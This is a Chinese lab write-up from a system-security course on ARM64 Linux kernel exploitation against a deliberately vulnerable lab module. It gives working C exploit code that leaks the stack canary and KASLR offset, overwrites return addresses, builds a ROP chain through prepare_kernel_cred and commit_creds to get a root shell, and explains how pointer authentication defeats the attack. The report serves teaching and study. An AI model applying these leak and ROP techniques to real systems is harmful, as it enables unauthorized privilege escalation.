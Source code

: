 ```yaml
---
counter: True
comment: True
---
```


# Linux 内核 ROP 攻击与防护

!!! abstract
    系统安全 lab2 实验报告

    !!! warning "仅供学习参考，请勿抄袭"

## 实验目标

- 了解 ARM64 栈的布局，学习 buffer overflow 漏洞的原理与利用方式
- 了解 stack canary 与 KASLR 等抵御 buffer overflow 漏洞的原理，并学会如何绕过这些防护机制
- 学习 return-oriented programming (ROP) 攻击原理，获取 Linux 内核的 root 权限
- 学习 ARMV8.3 PA (Pointer Authentication) 原理，了解 Linux 内核如何利用 PA 机制防止 ROP 攻击

## 实验过程

### Task 1

需要泄漏出 canary 值并且根据 ra 计算出当前 KASLR 的偏移值。首先观察 zjubof_read 和 zjubof_write4 的代码：

```c
static ssize_t zjubof_read (struct file *file, char __user *buffer, size_t len, loff_t *offset)
{
    int ret = 0;
    if(len >= CMD_LENGTH)
        return -EINVAL;
    ret = copy_to_user(buffer, prev_cmd, len);
    return ret;
}

ssize_t zjubof_write4(char *buffer,size_t len)
{
    struct cmd_struct cmd;   
    printk("zjubof_write4\n");
    memset(cmd.command, 0, 16);
    cmd.length = len;
    if(cmd.length > 16)
        cmd.length = 16;
    memcpy(cmd.command, buffer, len);
    memcpy(prev_cmd,cmd.command, cmd.length);
    printk("cmd :%s len:%ld\n", cmd.command,len);
    return 0;
}
```

read 从全局变量 prev_cmd 中获取 len 长度的值。write 规定 cmd.length 不超过 16，但 memcpy 时先用的 len，此处可以溢出覆盖掉 cmd.length，后面就可以将泄漏的内容写入 prev_cmd 供读取了。通过 objdump 我们知道 cmd 在 zjubof_write4 的最底端，可以直接溢出到 zjubof_write3 的函数帧栈中，整体结构如下：

```text
buf+00  cmd.command[0:8]    ┐
buf+08  cmd.command[8:16]   ├ zjubof_write4
buf+16  cmd.length          ┘
buf+24  canary              ┐
buf+32  old frame pointer   ├ zjubof_write3
buf+40  return address      ┘
```

所以我们只需要写入 16+8 个字节，前 16 个字节占满 cmd.command，后 8 个字节覆盖掉 cmd.length 修改为 48 就可以将上述 6 个八字节的值复制到 prev_cmd 中，再通过 read 泄漏出来。

得到 ra 后，我们就可以根据 zjubof_write2 中调用 zjubof_write3 时下一条指令的地址与存在栈上的 lr 比较来计算出 KASLR 的偏移量：

```text
ffff800010de7cb4 <zjubof_write2>:
...
ffff800010de7d08:	97ffffdc 	bl	ffff800010de7c78 <zjubof_write3>
ffff800010de7d0c:	f9410fe0 	ldr	x0, [sp, #536]
...
```

为了更方便地进行 8 字节 buffer 与 size_t 值的转换，可以使用一个 struct+union：

```c 
struct uint64_mem {
    union {
        size_t val;
        char buf[8];
    };
} canary, ra;
```

这样通过 canary.buf 进行的赋值就可以直接通过 canary.val 读取。完整的 exp 如下：

```c 
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>

size_t original_ra = 0xffff800010de7d0c, offset;

struct uint64_mem {
    union {
        size_t val;
        char buf[8];
    };
} canary, ra;

void leak_info(int fd) {
    char buf[0x100] = "AAAAAAAAAAAAAAAA\x30";
    write(fd, buf, 16 + 8);
    read(fd, buf, 48);
    memcpy(canary.buf, buf + 24, 8);
    memcpy(ra.buf, buf + 40, 8);
    printf("[+] canary: \t0x%lx\n", canary.val);
    printf("[+] ra: \t0x%lx\n", ra.val);
    offset = ra.val - original_ra;
    printf("[+] offset: \t0x%lx\n", offset);
}

int main() {
    int fd = open("/dev/zjubof", O_RDWR);
    if (fd < 0) {
        perror("open");
        return 1;
    }
    leak_info(fd);
    close(fd);
    return 0;
}
```

通过 aarch64-linux-gnu-gcc -static exp.c -o exp 编译后将 exp 放入 share 文件夹中。然后 ./start.sh 通过 qemu 启动 kernel，在 kernel 中 cd /mnt/share 后 ./exp 即可运行 exp 得到泄漏的 canary 和 offset：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab2/task1.png" width="60%" style="margin: 0 auto;">
</div>

### Task 2

需要修改 zjubof_write3 的返回地址，跳转到 first_level_gadget 进行提权，然后运行 shell。栈的结构同样如上分析：

```text
buf+00  cmd.command[0:8]    ┐
buf+08  cmd.command[8:16]   ├ zjubof_write4
buf+16  cmd.length          ┘
buf+24  canary              ┐
buf+32  old frame pointer   ├ zjubof_write3
buf+40  return address      ┘
```

只需要写入一下构造好的 buf 即可，Task 1 中我们得到了 canary，在这里写入的时候填入泄露的 canary 即可绕过栈溢出保护，接着 fp 不用管，ra 需要在 objdump 找到的预期跳转地址上加上 KASLR 偏移量即可。这里我们需要跳转到 first_level_gadget 的第二条指令处，因为在 zjubof_write3 返回时栈的状态已经恢复到了 zjubof_write2 的帧栈，这里我们想要的是在它的帧栈中运行 first_level_gadget 函数，不需要再调整 sp，所以需要跳过第一条 stp 指令。

```text
ffff8000107abd78 <first_level_gadget>:
ffff8000107abd78:	a9bf7bfd 	stp	x29, x30, [sp, #-16]!
ffff8000107abd7c:	d2800000 	mov	x0, #0x0                   	// #0
...
```

在 first_level_gadget 中我们可以发现最后返回前将 sp 加了 0x220，这是因为 zjubof_write2 的帧栈大小是 0x220，zjubof_write3 的帧栈大小是 32，zjubof_write4 的帧栈大小是 80。在每个函数调用的开头会给 sp 减去帧栈大小来开辟空间，结束后给 sp 加回来恢复到调用者的帧栈。而在 zjubof_write3 返回的时候已经恢复到了 zjubof_write2 的帧栈，要想在提权后正常返回到 zjubof_write，不能通过函数正常的退出流程，需要自己还原现场并手动 ret 返回。在这里就体现为手动 load 回 x29 x30 x19 x20 x21 并将 sp 加上 0x220，然后 ret 即可返回到 zjubof_write2 的帧栈中。

这部分的 exp 如下：

```c 
size_t first_level_gadget = 0xffff8000107abd7c;

void task2(int fd) {
    char buf[0x100] = {0};
    struct uint64_mem fake_ra;
    fake_ra.val = first_level_gadget + offset;
    memcpy(buf + 24, canary.buf, 8);
    memcpy(buf + 40, fake_ra.buf, 8);
    write(fd, buf, 48);
    system("/bin/sh");
}
```

在 Task 1 的基础上 leak_info 后调用 task2(fd) 即可完成提权：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab2/task2.png" width="60%" style="margin: 0 auto;">
</div>

可见运行 /bin/sh 时的用户变为了 root，且可以读取到 flag 内容为 sysde655sEc。

### Task 3

在这个 task 中不能直接通过 first_level_gadget 提权，需要手动调用 prepare_kernel_cred 和 commit_creds 提权，然后再通过 second_level_gadget 跳回 zjubof_write。所以我们只需要覆盖更多栈空间，将整个栈布局为如下：

```text
buf+000 cmd.command[0:8]    ┐
buf+008 cmd.command[8:16]   ├ zjubof_write4
buf+016 cmd.length          ┘
buf+024 canary              ┐
buf+032 old frame pointer   ├ zjubof_write3
buf+040 return address      │                  -> to prepare_kernel_cred
buf+048                     │
buf+056                     ┘
buf+064 old frame pointer   ┐
buf+072 return address      │                  -> to commit_creds
buf+080                     ├ prepare_kernel_cred
buf+088                     ┘
buf+096 old frame pointer   ┐
buf+104 return address      │                  -> to second_level_gadget
buf+112                     ├ commit_creds
buf+120                     │
buf+128                     │
buf+136                     ┘
buf+144 old frame pointer   ┐
buf+152 return address      │                  -> to zjubof_write2 ra
buf+160                     ├ second_level_gadget
...
```

这样在 zjubof_write3 返回的时候就会跳转到 prepare_kernel_cred 处，同理我们为它设置好了栈，所以需要跳过函数 prelude，然后正常结束的时候会抹掉这个帧栈并返回到我们设置好的 commit_creds 处，以此类推到 second_level_gadget，这里在回到 zjubof_write 前同理也需要调整栈，我们之前将 sp 减了 0x220，这里的 prepare_kernel_cred 和 commit_creds 返回的时候已经分别减少了 32 和 48，所以 second_level_gadget 中只需要减少 0x220 - 32 - 48 = 0x1d0 即可。

按照上方的帧栈分析进行布局即可，这部分的 exp 如下：

```c
size_t first_level_gadget = 0xffff8000107abd7c;     // 去除了 prelude
size_t prepare_kernel_cred = 0xffff8000100a6214;    // 去除了 prelude
size_t commit_creds = 0xffff8000100a5f6c;           // 去除了 prelude
size_t second_level_gadget = 0xffff8000107abdb0;    // 去除了 prelude
size_t final_ra = 0xffff8000107abe54;

void task3(int fd) {
    char buf[0x200] = {0};
    struct uint64_mem ra1, ra2, ra3, ra4;
    ra1.val = prepare_kernel_cred + offset;
    ra2.val = commit_creds + offset;
    ra3.val = second_level_gadget + offset;
    ra4.val = final_ra + offset;
    memcpy(buf + 24, canary.buf, 8);
    memcpy(buf + 40, ra1.buf, 8);
    memcpy(buf + 72, ra2.buf, 8);
    memcpy(buf + 104, ra3.buf, 8);
    memcpy(buf + 152, ra4.buf, 8);
    write(fd, buf, 160);
    system("/bin/sh");
}
```

同样运行，即可进行提权：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab2/task3.png" width="60%" style="margin: 0 auto;">
</div>

### Task 4

启用 ARMv8.3 PA 之后编译内核，并同样运行，修改 exp 中已知地址后运行 exp 仍出现段错误：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab2/task4.png" width="60%" style="margin: 0 auto;">
</div>

观察 zjubof_write3 的汇编：

```text
ffff800010eb6ccc <zjubof_write3>:
ffff800010eb6ccc:	d503245f 	hint	#0x22
ffff800010eb6cd0:	d503233f 	paciasp
ffff800010eb6cd4:	a9be7bfd 	stp	x29, x30, [sp, #-32]!
ffff800010eb6cd8:	910003fd 	mov	x29, sp
ffff800010eb6cdc:	a90153f3 	stp	x19, x20, [sp, #16]
ffff800010eb6ce0:	aa0003f3 	mov	x19, x0
ffff800010eb6ce4:	aa0103f4 	mov	x20, x1
ffff800010eb6ce8:	f0003720 	adrp	x0, ffff80001159d000 <kallsyms_token_index+0xd7298>
ffff800010eb6cec:	91188000 	add	x0, x0, #0x620
ffff800010eb6cf0:	97ffe556 	bl	ffff800010eb0248 <_printk>
ffff800010eb6cf4:	aa1403e1 	mov	x1, x20
ffff800010eb6cf8:	aa1303e0 	mov	x0, x19
ffff800010eb6cfc:	97ffffc7 	bl	ffff800010eb6c18 <zjubof_write4>
ffff800010eb6d00:	d2800000 	mov	x0, #0x0                   	// #0
ffff800010eb6d04:	a94153f3 	ldp	x19, x20, [sp, #16]
ffff800010eb6d08:	a8c27bfd 	ldp	x29, x30, [sp], #32
ffff800010eb6d0c:	d50323bf 	autiasp
ffff800010eb6d10:	d65f03c0 	ret
```

hint 指令可以忽略，所以本质上其多了 paciasp 和 autiasp 两条指令。这两条指令由 ARMv8.3 的 Pointer Authentication 机制引入，原理是在存储指针时在地址高位添加签名，使得栈上存储的返回地址不是裸的返回地址，而是带有签名的返回地址。因此也可见在 leak_info 函数的输出中 ra 的值并非为 0xfff 开头的虚拟地址，而是 0x4ad... 这样的地址。

paciasp 指令会为当前返回地址添加 PAC 签名，之后再通过 stp 存入栈上。函数返回前会通过 autiasp 指令验证返回地址的 PAC 签名并恢复为裸的返回地址。这也就使得了中间对于 ra 的修改会使得 autiasp 验证无效从而抛出异常。也使得了通过修改返回地址进行的攻击更加困难。

## 思考题

> 1. **为什么 Linux canary 的最低位 byte 总是 \00？**

因为 canary 值以小端序存入，这样在低位的地址就是 \x00，如果下一个函数帧栈的最高位局部变量是字符串，那么这个 \x00 就会保证该字符串的后面一定有一个 \0，如果打印该字符串或者通过 strcpy 进行拷贝都会停止在 canary 前，降低了 canary 泄漏的风险。但是对于本次实验中通过 memcpy 进行拷贝是没有作用的。

> 2. **在 ARM64 的 ROP 中，在 zjubof_write4 中 overflow 覆盖到的返回地址，会在什么时候/执行到哪个函数哪一行的时候被 load 到 pc 寄存器？**

在 zjubof_write4 中覆盖的返回地址会在 zjubof_write3 返回时也就是最后 postlude 中 ldp 读取了 x29 x30 后通过 ret 指令 load 到 pc 寄存器：

```text
ffff800010de7c78 <zjubof_write3>:
...
ffff800010de7ca8:	a94153f3 	ldp	x19, x20, [sp, #16]
ffff800010de7cac:	a8c27bfd 	ldp	x29, x30, [sp], #32
ffff800010de7cb0:	d65f03c0 	ret
```

> 3. **在 Task 2 中，为什么在 exp 中直接覆盖返回地址为 first_level_gadget 的汇编第一行地址，会造成 kernel 在运行到这一行的时候产生 panic？并写出造成这个 panic 的触发链。**

在运行 first_level_gadget 第一条指令前的栈结构如下：

```text
sp      old frame pointer   ┐
sp+08   return address      │                  -> to zjubof_write
sp+16                       ├ zjubof_write2
sp+24                       ┘
```

这时的栈已经恢复到了 zjubof_write2 的栈上，这里的 ra 是预期的 zjubof_write 中的地址。而如果这时运行 first_level_gadget 的第一行，就会执行 stp	x29, x30, [sp, #-16]! 指令，将当前的 x29 x30 保存到 sp-16 的位置并为 sp 减 16，而这时存储的 ra(x30) 仍然是我们伪造的 first_level_gadget 的地址，所以栈结构如下：

```text
sp      old frame pointer   ┐
sp+08   return address      ┘                  -> to first_level_gadget  
sp+16   old frame pointer   ┐
sp+24   return address      │                  -> to zjubof_write
sp+32                       ├ zjubof_write2
sp+40                       ┘
```

这样在 first_level_gadget 中会 sp-=0x220 调整 sp 后立即返回到 ra 处，而这个 ra 恰好又是 first_level_gadget 第一行。所以会这样不断反复进入 first_level_gadget，不断将 sp 减小，直到爆栈。可以验证，直接覆盖为第一行地址后的 panic 信息如下：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab2/panic.png" width="60%" style="margin: 0 auto;">
</div>

可见 task 的栈空间为 [0xffff8000102d8000..0xffff8000102dc000] 而当前 sp 为 0xffff8000102dc170，已经超出了栈空间，而在处理异常的时候又因为 Insufficient stack space to handle exception! 导致了 kernel panic。

> 4. **Linux 内核是如何利用 ARM PA 来防御 ROP 攻击的**

Linux 内核利用 ARM PA 的 paciasp 和 autiasp 指令来对返回地址进行签名和验证，这样在存储返回地址时会将其签名，而在返回时会验证签名，如果签名不匹配则会抛出异常。这样就使得了在内核中进行 ROP 攻击变得更加困难，详细分析见 Task 4。
